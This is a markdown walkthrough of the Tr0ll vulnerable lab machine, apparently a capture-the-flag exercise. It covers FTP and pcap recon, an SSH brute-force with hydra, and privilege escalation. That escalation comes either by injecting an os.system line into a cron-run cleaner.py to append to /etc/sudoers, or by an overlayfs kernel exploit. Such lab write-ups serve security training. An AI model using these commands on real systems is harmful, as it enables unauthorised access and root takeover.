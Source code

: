 # Tr0ll

![](https://i.imgur.com/1JR58TI.png)
Host is `192.168.227.132`
![](https://i.imgur.com/jlZhZyO.png)
Victim is `192.168.227.136`
`nmap -sS -sV -A -p- -oN NampTr0llLv1.txt 192.168.227.136`
![](https://i.imgur.com/bpl6vLv.png)
Here we got three port open: Anonymous login allowed FTP/21, OpenSSH 6.6.1p1/22, Apache httpd 2.4.7/80

Let's first try ftp, which seems the challenge's entry.
`ftp 192.168.227.136` and account might be `Anonymous`.
```
ls
get lol.cap
```
![](https://i.imgur.com/K6iHTbg.png)

`wireshark lol.pcap`
![](https://i.imgur.com/MJUeEl3.png)

We found there something interesting: `secret_stuff.txt`.

![](https://i.imgur.com/AyBGzsj.png)
The file actually contain those message, seems nothing help. That might be a stego trick or words misc here.

`http://192.168.227.136/secret_stuff.txt`
![](https://i.imgur.com/4GfsNKI.png)

Okay, there's no secret_stuff.txt on the Apache service.

How about `sup3rs3cr3tdirlol` it mention in the message?
`http://192.168.227.136/sup3rs3cr3tdirlol`
![](https://i.imgur.com/DQbSrFO.png)

Let's download it and find more clue in it.
`file roflmao`
![](https://i.imgur.com/EX2P5GP.png)
A ELF binary.

`binwalk roflmao`
![](https://i.imgur.com/DjxuGSO.png)
Nothing appended.

`foremost roflmao`
![](https://i.imgur.com/YBptgQC.png)

![](https://i.imgur.com/rUQOkVz.png)
Nothing.

`strings roflmao`
![](https://i.imgur.com/0f0dHHr.png)
Seems a static strings `find address 0x0856BF to proceed` in this ELF executable.
Let's chmod the binary and exec it.

`chmod +x roflmao`
`./roflmao`
![](https://i.imgur.com/dX2PXSu.png)

As these not a service on the target's port, this might not be a pwn challenge, so it might be a stego misc here.
Try `0x0856BF`
`http://192.168.227.136/0x0856BF`
![](https://i.imgur.com/1hil4yQ.png)

Here we got two folder.

![](https://i.imgur.com/nZUOtRq.png)

![](https://i.imgur.com/iU07pVg.png)
And there's Account list `which_one_lol.txt` in `/good_luck` and password `Pass.txt` in `/this_folder_contains_the_password`.

![](https://i.imgur.com/nRaliep.png)

![](https://i.imgur.com/u0VGEiV.png)

Let's try `hydra -L which_one_lol.txt -P Pass.txt 192.168.227.136 ssh`
![](https://i.imgur.com/4e9Tb6i.png)

Failed, that means `Good_job_:)` is not the password, trick again.
Let's set `pass.txt` as password and try again: `hydra -L which_one_lol.txt -p Pass.txt 192.168.227.136 ssh`
![](https://i.imgur.com/K8ooOo7.png)

I feel not good after these words tricks...
`ssh overflow@192.168.227.136`
![](https://i.imgur.com/2vCWI1D.png)

Wait, what?
![](https://i.imgur.com/IWmjJfQ.png)

Great, it kicks me regularly.
`id & whoami & uname -a`
![](https://i.imgur.com/COYmyRw.png)

According there's scheduled task to kick login account, find the  `/etc/crontab` to see the task.
`cat /etc/crontab`
![](https://i.imgur.com/gnCAaAu.png)

Okay, it fail, try to see log.
`cat /var/log/cronlog`
![](https://i.imgur.com/HYK6FjW.png)

The script which used to kick us out is `cleaner.py`, try to find the script's location.
`find / -name cleaner.py 2>/dev/null`
![](https://i.imgur.com/LkqI3X3.png)

Now we got two way to PoE, one is to overwrite the `cleaner.py`, another is exploit of old linux kernel:
![](https://i.imgur.com/6Q7jrWI.png)

![](https://i.imgur.com/F1aPV1l.png)

It's a `overlayfs` vulnerability.
![](https://i.imgur.com/dX1Dp5S.png)
After you copy then compile the exploit code and execute it, you might become `root`.
Go to `/root` to cat the flag.
![](https://i.imgur.com/tCE4Ynu.png)

Or replace the command in `cleaner.py` with `os.system('echo "overflow ALL=(ALL:ALL) ALL " >> /etc/sudoers')`
![](https://i.imgur.com/MFxQhuv.png)

![](https://i.imgur.com/3AqN4Zt.png)

After diconnect, the script might be executed.
Reconnect to the machine, and simply use `sudo su` to become root.
![](https://i.imgur.com/aQG3W0Q.png)

![](https://i.imgur.com/dtT1Lzu.png)
